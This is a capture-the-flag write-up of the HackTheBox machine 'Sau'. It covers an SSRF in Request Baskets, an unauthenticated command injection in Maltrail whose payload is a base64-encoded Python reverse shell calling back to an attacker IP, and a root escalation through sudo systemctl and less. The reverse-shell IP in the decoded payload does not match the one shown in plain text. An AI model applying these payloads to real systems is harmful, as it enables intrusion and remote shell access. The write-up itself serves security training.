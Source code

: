 ```yaml
---
layout: page
title: Sau
img: assets/img/writeups/hackthebox/Sau/sau_logo.png
importance: 1
category: hackthebox
related_publications: einstein1956investigations, einstein1950meaning
---
```


## Foothold
Port scanning - 22, 80 (filtred?), 55555
{% include figure.html path="assets/img/writeups/hackthebox/Sau/sau_nmap.png" title="example image" class="img-fluid rounded z-depth-1" %}

Let's take a look at unknown service. We will meet the Request Basket - web service to collect arbitrary HTTP requests and inspect them via RESTful API or simple web UI.

{% include figure.html path="assets/img/writeups/hackthebox/Sau/sau_web.png" title="example image" class="img-fluid rounded z-depth-1" %}

Directory and subdomain bruteforcing give nothing. Since we have an open source application - a good practice to discover [github](https://github.com/darklynx/request-baskets) project.

Remember version (v 1.2.1) and some googling helps to identify SSRF CVE-2023-27163.

## User
CVE-2023-27163 vulnerability allows attackers to access network resources and sensitive information by exploiting the /api/baskets/{name} component through a crafted API request.

Time to recall a filtered port at 80 port and all solution be obvious. Exploiting SSRF from service on 55555 port can give access to 80 filtered port.

To exploit that SSRF, set proxy settings in web application to forward traffic to 0.0.0.0:80. POST request with JSON body we looks like that:
```json
{
	"forward_url": "http://0.0.0.0:80", 
	"proxy_response": true, 
	"insecure_tls": false, 
	"expand_path": false, 
	"capacity": 10
}
```

After updating proxy settings web server forward traffic to filtered port. It gives an opportunity to discover information about new service. 

Service on filtered port- [Maltrail](https://github.com/stamparm/maltrail) v0.53. 
  
The Internet whispers that the application with this version is subject to unauthenticated OS command injection.

The `subprocess.check_output` function in mailtrail/core/http.py contains a command injection vulnerability in the `params.get("username")`parameter.

An attacker can exploit this vulnerability by injecting arbitrary OS commands into the username parameter. The injected commands will be executed with the privileges of the running process. This vulnerability can be exploited remotely without authentication.

My exploit request with reverse shell looked like:

```
username=;`echo+ZXhwb3J0IFJIT1NUPSIxMC4xMC4xNC4xMzQiO2V4cG9ydCBSUE9SVD05MDAwO3B5dGhvbjMgLWMgJ2ltcG9ydCBzeXMsc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oIi9iaW4vYmFzaCIpJw|base64+-d|bash`
```

Where Base64 code is default python reverse shell:
```bash
export RHOST="10.10.14.183";
export RPORT=9000;
python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

Handling shell with netcat will give us an user access to machine.

Here we got an user flag!
{% include figure.html path="assets/img/writeups/hackthebox/Sau/sau_user.png" title="example image" class="img-fluid rounded z-depth-1" %}

## Root
```bash
sudo -l
```
Puma user can use systemctl with sudo privileges.
{% include figure.html path="assets/img/writeups/hackthebox/Sau/sau_privesc2.png" title="example image" class="img-fluid rounded z-depth-1" %}

Output of that sudo command gets piped automatically through 'less'. It can give opportunity to execute commands in 'less' command line.
```less
!sh
```
It means, user have ability to spawn root shell and get second flag.

{% include figure.html path="assets/img/writeups/hackthebox/Sau/sau_privesc.png" title="example image" class="img-fluid rounded z-depth-1" %}
